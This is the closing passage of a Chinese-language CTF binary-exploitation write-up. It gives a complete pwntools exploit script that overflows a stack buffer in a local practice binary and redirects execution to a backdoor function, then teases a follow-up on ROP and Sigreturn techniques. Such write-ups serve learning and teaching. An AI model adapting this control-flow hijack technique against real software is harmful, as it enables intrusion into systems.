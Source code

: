 此时只需要将对应的值替换为后门即可，成功完成利用

[![](assets/1701606796-8afc7b9704b5de2ce983677f04ac7990.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103154536-f99c4084-7a1c-1.png)

> 这里局部变量的调试比较枯燥，直接跟着断点看看哪里 crash 然后更改变量为合适的值即可，不做详细阐述

### exp

最终的参考 exp 如下

```bash
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401259')

# p()
backdoor = 0x401a7d    
io.recvuntil("called")
payload = b'a'*8
payload += b'b'*8
payload += b'c'*8
payload += p64(0xff) #防止 crash
payload += p64(backdoor)
payload += p64(0x4a6001) #防止 crash
payload += b'g'*8
payload += p64(0x004032a4+1)
payload += p64(0x402df0+1)
io.send(payload)

io.interactive()
```

> 在下篇文章将会深入介绍与传统 ROP 以及 Sigreturn 之间相互配合利用的攻击手法
